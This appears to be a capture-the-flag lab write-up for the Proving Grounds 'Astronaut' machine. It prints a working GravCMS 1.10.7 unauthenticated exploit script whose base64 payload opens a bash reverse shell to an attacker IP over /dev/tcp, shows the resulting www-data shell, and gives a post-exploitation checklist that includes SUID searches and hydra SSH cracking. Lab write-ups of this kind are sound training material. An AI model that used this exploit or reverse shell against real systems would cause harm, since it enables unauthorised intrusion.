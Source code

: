 ```yaml
---
layout: default
title: Astronaut
parent: Proving Grounds Practice - Linux
nav_order: 8
---
```


# Scanning

---

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PRACTICE]
└─$ sudo nmap -Pn -p- -sC -sV -T4 --open 192.168.184.12
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-27 21:59 EST
Nmap scan report for 192.168.184.12
Host is up (0.066s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 98:4e:5d:e1:e6:97:29:6f:d9:e0:d4:82:a8:f6:4f:3f (RSA)
|   256 57:23:57:1f:fd:77:06:be:25:66:61:14:6d:ae:5e:98 (ECDSA)
|_  256 c7:9b:aa:d5:a6:33:35:91:34:1e:ef:cf:61:a8:30:1c (ED25519)
80/tcp open  http    Apache httpd 2.4.41
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-ls: Volume /
| SIZE  TIME              FILENAME
| -     2021-03-17 17:46  grav-admin/
|_
|_http-title: Index of /
Service Info: Host: 127.0.0.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.03 seconds

```

# Enumeration

---

## HTTP | 80

![folder](../../../assets/images/ctfs/proving_grounds/astronaut/folder.png)

This leads to the directory _/grav-admin_ and run Gobuster here.

_robots.txt_

```bash
Disallow: /backup/ # forbidden
Disallow: /bin/ # forbidden
Disallow: /cache/ # forbidden
Disallow: /grav/ #interesting
Disallow: /logs/ # forbidden
Disallow: /system/ # forbidden
Disallow: /vendor/ # forbidden
Disallow: /user/ # forbidden
Allow: /user/pages/ # forbidden
Allow: /user/themes/ # forbidden
Allow: /user/images/ # interesting
Allow: /
Allow: *.css$
Allow: *.js$
Allow: /system/*.js$
```

_/grav-admin/admin_ returns a login page

![admin](../../../assets/images/ctfs/proving_grounds/astronaut/admin.png)

# Exploitation

---

Searchsploit shows a Grav CMS exploit.

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PRACTICE/astronaut]
└─$ searchsploit grav
---------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                        |  Path
---------------------------------------------------------------------- ---------------------------------

GravCMS 1.10.7 - Arbitrary YAML Write/Update (Unauthenticated) (2)    | php/webapps/49973.py
```

Checking the exploit there is Base64 Encoded value we need to replace with a reverse shell one-liner to our attack machine.

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PRACTICE/astronaut]
└─$ cat 49973.py
# Exploit Title: GravCMS 1.10.7 - Arbitrary YAML Write/Update (Unauthenticated) (2)
# Original Exploit Author: Mehmet Ince
# Vendor Homepage: https://getgrav.org
# Version: 1.10.7
# Tested on: Debian 10
# Author: legend

#/usr/bin/python3

import requests
import sys
import re
import base64
target= "http://192.168.184.12/grav-admin"
#Change base64 encoded value with with below command.
#echo -ne "bash -i >& /dev/tcp/192.168.1.3/4444 0>&1" | base64 -w0
payload=b"""/*<?php /**/
file_put_contents('/tmp/rev.sh',base64_decode('YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjQ1LjIxNy80NDQ0IDA+JjE='));chmod('/tmp/rev.sh',0755);system('bash /tmp/rev.sh');
"""
s = requests.Session()
r = s.get(target+"/admin")
adminNonce = re.search(r'admin-nonce" value="(.*)"',r.text).group(1)
if adminNonce != "" :
    url = target + "/admin/tools/scheduler"
    data = "admin-nonce="+adminNonce
    data +='&task=SaveDefault&data%5bcustom_jobs%5d%5bncefs%5d%5bcommand%5d=/usr/bin/php&data%5bcustom_jobs%5d%5bncefs%5d%5bargs%5d=-r%20eval%28base64_decode%28%22'+base64.b64encode(payload).decode('utf-8')+'%22%29%29%3b&data%5bcustom_jobs%5d%5bncefs%5d%5bat%5d=%2a%20%2a%20%2a%20%2a%20%2a&data%5bcustom_jobs%5d%5bncefs%5d%5boutput%5d=&data%5bstatus%5d%5bncefs%5d=enabled&data%5bcustom_jobs%5d%5bncefs%5d%5boutput_mode%5d=append'
    headers = {'Content-Type': 'application/x-www-form-urlencoded'}
    r = s.post(target+"/admin/config/scheduler",data=data,headers=headers)

```

Once the exploit executes we should be able to trigger the PHP reverse shell at the endpoint _/tmp/rev.sh_

![rev](../../../assets/images/ctfs/proving_grounds/astronaut/rev.png)

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PRACTICE]
└─$ nc -nlvp 4444
listening on [any] 4444 ...
connect to [192.168.45.217] from (UNKNOWN) [192.168.184.12] 59570
bash: cannot set terminal process group (69285): Inappropriate ioctl for device
bash: no job control in this shell
www-data@gravity:~/html/grav-admin$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@gravity:~/html/grav-admin$

```

# Post-Exploitation

---

- [ ] Upgrade to TTY Shell

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
ctrl+z
stty size
stty raw -echo
fg
stty rows <first_value>
stty cols <second_value>
export TERM=xterm-256color
```

- [ ] sudo -l
- [ ] enumerate users
- [ ] SUID/GUID

```bash
find / -perm -u=s -type f 2>/dev/null
find / -perm -g=s -type f 2>/dev/null
```

- [ ] enumerate process running with root privileges

```bash
ps -aux | grep -i 'root'
```

- [ ] enumerate network services

```bash
netstat -antup (ss -tunlp)
```

- [ ] check for extended capabilities

```bash
getcap -r / 2>/dev/null
```

- [ ] test discovered credentials against all users
- [ ] attempt hydra ssh password crack for discovered users
- [ ] check _/opt_, _/tmp_, _/var/tmp_, _/etc_, and _/dev/shm_
- [ ] Check if /etc/passwd is writeable
